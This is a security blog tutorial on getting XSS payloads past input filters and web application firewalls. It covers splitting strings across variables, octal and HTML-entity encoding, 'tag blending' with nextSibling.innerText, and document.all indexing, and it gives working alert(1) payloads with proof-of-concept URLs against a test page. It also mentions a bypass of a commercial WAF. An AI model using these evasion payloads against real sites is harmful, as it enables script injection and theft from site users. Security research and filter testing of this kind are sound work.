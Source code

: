 https://brutelogic.com.br/blog/




Property-based payloads are payloads based on some particular properties of the document object and the elements. From the document object we already know the location-based payloads and from the elements we have the properties  “innerHTML” and “outerHTML”.

Those 3 are very useful to evade a filter or WAF when we get to the point where the JavaScript code needs to be obfuscated. That scenario usually arises when we get past to the event handler in a HTMLi-based XSS vector but it can also be used in regular JavaScript injections (inside script blocks) or even in DOM-based XSS scenarios.


 

The Fight for Parentheses
Filters and WAFs will try to catch parentheses, in that “(” and “)” order, to not let us call any JS function. Backticks, which can be used to call some functions, will trigger a block too. There are ways to make them unpredictable by regular filter rules but for that we need to turn our payload into a string somehow. After doing that we can split the string in multiple pieces, breaking keywords and change the order of characters to avoid the blocking rules.

So let’s see what we can do when we use a location-based payload. We will use a SVG vector with onload event handler as default in this post but it can be any combination of element and handler used in the complete bypass.

*** Beware with the new line (becomes space) when copy+paste 2-lines payloads. ***

<svg onload=location='javascript:alert(1)'>

PoC: https://brutelogic.com.br/gym.php?p05=%3Csvg+onload=location=%27javascript:alert(1)%27%3E

It works but it’s an easy target for a filter. Let’s split the string creating some variables and make some changes.

<svg onload=a=')',b='t(1',j='javas',
s='cript:aler',location=j+s+b+a>

PoC: https://brutelogic.com.br/gym.php?p05=%3Csvg+onload=a=%27)%27,b=%27t(1%27,j=%27javas%27,s=%27cript:aler%27,location=j%2Bs%2Bb%2Ba%3E

As we can see, it became harder for a filter to catch this one.

That way to bypass is standard using document.location property. Let’s see an example with innerHTML now, which works exactly the same as with outerHTML. We make use of octal  encoding to not trigger filter with regular HTML rules since our string is identical to an HTMLi-based vector.

<svg onload=innerHTML=
'\74img/src/onerror\75alert\501\51\76'>

PoC: https://brutelogic.com.br/gym.php?p05=%3Csvg%20onload=innerHTML=%27\74img/src/onerror\75alert\501\51\76%27%3E

The same splitting used for location can be performed here:

<svg onload=a='\51\76',b='t\501',
i='\74img/src/one',m='rror\75aler',innerHTML=i+m+b+a>

PoC: https://brutelogic.com.br/gym.php?p05=%3Csvg%20onload=a=%27\51\76%27,b=%27t\501%27,i=%27\74img/src/one%27,m=%27rror\75aler%27,innerHTML=i%2Bm%2Bb%2Ba%3E

Using a property-based payload with the splitting technique, a bypass in a known WAF vendor (Imperva) was discovered little time ago:


As we can see, it was easier to use a single reusable backtick instead of the pair of parentheses.

 

The Tag Blending Technique
Although the above technique is very useful, it requires that the whole payload be inside the element, triggered by the event handler. What we will see now is a way to make the element shorter (but not the entire vector) and split keywords in a way extremely difficult for a filter or WAF to catch.

We start with a jump to outside of our XSS vector with textContent:

<svg onload=location=textContent>javascript:alert(1)//

PoC: https://brutelogic.com.br/gym.php?p05=%3Csvg+onload=location=textContent%3Ejavascript:alert(1)//

Double slashes were added just in case there’s any native text content after injection.

It’s a nice and short payload that avoids the use of parentheses inside the HMTL element (svg) but it’s still makes the job of a filter easy by not obfuscating the keywords javascript (with semicolon) and alert, besides the parentheses themselves.

Unfortunately we can’t do the same with inner/outerHTML without using the same HMTL construct used by our main SVG vector because “<svg onload=innerHTML=textContent><img src onerror=alert(1)>” would be pointless and doesn’t even work. If we use innerHTML=innerHTML instead and replace “<” and “=” chars with their respective HTML entities it won’t work also.

Thankfully, there’s a way to solve the problem with both string-based payloads above: a tag blending technique.

It consists in using the following:



The pieces of text returned by the innerText property of the nextSibling property (which is the bunch of “b” elements we see above) are concatenated to form our desired string.

Here’s the DOM view:



So our next vector is straightforward:

<svg onload=location=nextSibling.innerText>
<b>javas<b></b>cript:al<b></b>ert(1)</b>

PoC: https://brutelogic.com.br/gym.php?p05=%3Csvg+onload=location=nextSibling.innerText%3E%3Cb%3Ejavas%3Cb%3E%3C/b%3Ecript:al%3Cb%3E%3C/b%3Eert(1)%3C/b%3E

Which makes it very hard for a filter to catch the  keywords now and the parentheses are hard to be tracked to get blocked but if it’s needed, we can add a couple more “b” elements:

<svg onload=location=nextSibling.innerText>
<b>javas<b></b>cript:al<b></b>ert(<b>1</b>)</b>

PoC: https://brutelogic.com.br/gym.php?p05=%3Csvg+onload=location=nextSibling.innerText%3E%3Cb%3Ejavas%3Cb%3E%3C/b%3Ecript:al%3Cb%3E%3C/b%3Eert(%3Cb%3E1%3C/b%3E)%3C/b%3E

Now for our inner/outerHTML property-based payloads we have something:

<svg onload=innerHTML=nextSibling.innerText>
<b>&lt;img/src/on<b></b>error=al<b></b>ert(1)></b>

PoC: https://brutelogic.com.br/gym.php?p05=%3Csvg+onload=innerHTML=nextSibling.innerText%3E%3Cb%3E%26lt;img/src/on%3Cb%3E%3C/b%3Eerror=al%3Cb%3E%3C/b%3Eert(1)%3E%3C/b%3E

Notice the use of HTML Entities this time (there’s also a good list of them here). So we can combine that tag+text blending with HTML entities to increase obfuscation. Again, if any keyword or pattern is getting caught, we just add a couple of elements.

Almost all valid XHTML element can be used (regular and arbitrary tags) like in the following:

<svg onload=innerHTML=nextSibling.innerText>
<b>&lt;img/src/on<r></r>error=al<u></u>ert(<te>1</te>)></b>

PoC: https://brutelogic.com.br/gym.php?
p05=%3Csvg+onload=innerHTML=nextSibling.innerText%3E%3Cb%3E%26lt;img/src/on%3Cr%3E%3C/r%3Eerror=al%3Cu%3E%3C/u%3Eert(%3Cte%3E1%3C/te%3E)%3E%3C/b%3E

But it’s always better to use regular, allowed HTML like <b>, <s>, <u> just in case to not get worried about that stage of the payload. In fact, all we need to do when approaching a filter is to make this pass:

<tag handler=property1=property2.property3>

And the rest will be easier. For property3 we have “textContent” as alternative and for property2 we have several other ones like “previousSibling” (with the tag blending coming before the main vector). Check here for more.

 

Now, a last trick: besides using keyword splitting to evade filter for those property names like document[‘loca’+’tion’] or nextSibling[‘inner’+’Text’] with maybe some optional chaining, we can also map the node of the DOM tree we want to point our payload to (the “nextSibling” used in our examples) in the following way:

 



 

By using console.log(document.all) in console (Browser Developer Tools – F12) we are able to see the document.all’s index of our injected elements. We take the first “b” element right after our SVG one, building this:

<svg onload=location=all[22].innerText>
<b>javas<b></b>cript:al<b></b>ert(1)</b>

PoC: https://brutelogic.com.br/gym.php?p05=%3Csvg+onload=location=all[22].innerText%3E%3Cb%3Ejavas%3Cb%3E%3C/b%3Ecript:al%3Cb%3E%3C/b%3Eert(1)%3C/b%3E

Although document.all is deprecated, it’s still valid, useful and makes the payload shorter. The other property (“innerText” in this case) can also be hidden inside an attribute of the main element, usually “id” as we will see below in the first tweet about these vectors.

 

For the record, this was discovered/built more than 1 year ago but it was now revisited to provide a detailed insight into the technique.